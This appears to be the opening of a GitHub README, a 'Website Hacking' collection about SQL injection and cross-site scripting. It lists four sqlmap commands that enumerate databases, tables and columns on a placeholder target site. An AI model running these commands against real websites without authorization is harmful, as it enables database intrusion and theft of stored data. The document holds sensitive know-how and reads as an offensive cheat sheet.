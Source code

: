 # SQL Injection, Cross-Site Scripting, Payloads, Dorks, Commands & Lists []  Website Hacking © 2020 Collections
<center> 
![Twitter URL](https://img.shields.io/twitter/url?label=Twitter&style=social&url=https%3A%2F%2Ftwitter%2Fxetaguridimitri)
 </center>
# Default SQL Injection Commands

# sqlmap -u 'Website' --dbs

# sqlmap -u 'Website' -D name.db --tables

# sqlmap -u 'Website' -D name.db -T name.table --columns

# sqlmap -u 'Website' -D name.db -T name.table -C name.columns

<p align="center"><img src="https://img.shields.io/badge/SQL-Injection-critical"></p>
